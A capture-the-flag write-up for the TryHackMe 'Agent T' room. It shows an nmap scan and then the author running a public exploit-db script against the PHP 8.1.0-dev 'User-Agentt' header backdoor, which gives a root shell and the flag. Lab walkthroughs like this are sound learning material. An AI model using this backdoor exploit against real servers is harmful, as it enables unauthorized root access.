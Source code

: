 **THM** : Agent T<br>
**Room Link** : https://tryhackme.com/room/agentt<br>
**Difficulty** : Easy <br>
**Flags to capture** : Root<br>
**Key Topics, Techniques, and Tools** : <br>
 - Ports and Services scan : [nmap](https://nmap.org/)
 - Exploit
 - Python scripting
 - Bash scripting 

<p align="center">   <img src="https://i.imgur.com/ah92RBF.png"> </p>  

# Summary

- [Summary](#summary)
  - [Adding IP to the hosts file](#adding-ip-to-the-hosts-file)
  - [Nmap scan](#nmap-scan)
  - [Website discovery](#website-disovery)
  - [Exploiting the PHP version](#exploiting-the-php-version)

<p align="center">   <img src="https://i.imgur.com/Kmtrf12.png"> </p> 

## Adding IP to the hosts file 
I start by adding the IP of the machine to my hosts file:<br>
```
echo "10.10.53.229 agent-t.thm"|sudo tee -a /etc/hosts
```   

## Nmap scan

I perform an `Nmap` scan on the target host and save the output to a file called `nmapResults.txt` <br>
The scan includes all ports `-p-` and uses aggressive scan options `-A` <br>

```
└─# nmap agent-t.thm -A -p- -oN nmapResults.txt

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 22:20 CEST
Nmap scan report for agent-t.thm (10.10.53.229)
Host is up (0.034s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=4/30%OT=80%CT=1%CU=44769%PV=Y%DS=2%DC=T%G=Y%TM=644ECDA
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST1
OS:1NW7%O6=M508ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=3F%W=FAF0%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=3F%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   32.40 ms 10.8.0.1
2   33.25 ms agent-t.thm (10.10.53.229)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.86 seconds                                                           
```

There is only 1 open port :
- `HTTP` - `PHP 8.1.0-dev` on port `80` 

## Website discovery
By going on the site, I find an admin dashboard webpage which seems to not allow user input :
<img src=https://i.imgur.com/VwYEShb.png>

## Exploiting the PHP version
At this stage, the only information that seems usable is the version of PHP (`PHP 8.1.0-dev`), so I decide to go to the site `exploit-db.com` (a public archive of exploits and vulnerable software maintained by `Offensive Security`) to see if an exploit is available : 
<img src=https://i.imgur.com/anuT98z.png>

There is an exploit which is a python script that allows to execute code remotely by exploiting a backdoor by sending an HTTP header  named `User-Agentt` :
<img src=https://i.imgur.com/2IdbCV3.png>

I download the script and try to execute it. I just have to enter the URL of the target machine to get a root shell :
```
└─# python3 49933.py        
Enter the full host url:
http://agent-t.thm/

Interactive shell is opened on http://agent-t.thm/ 
Can't acces tty; job crontol turned off.
$ whoami
root
```
Now that I have root access to the machine, I can recover the `root flag` :
```
$ ls /
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ cat /flag.txt
flag{*******************************}
```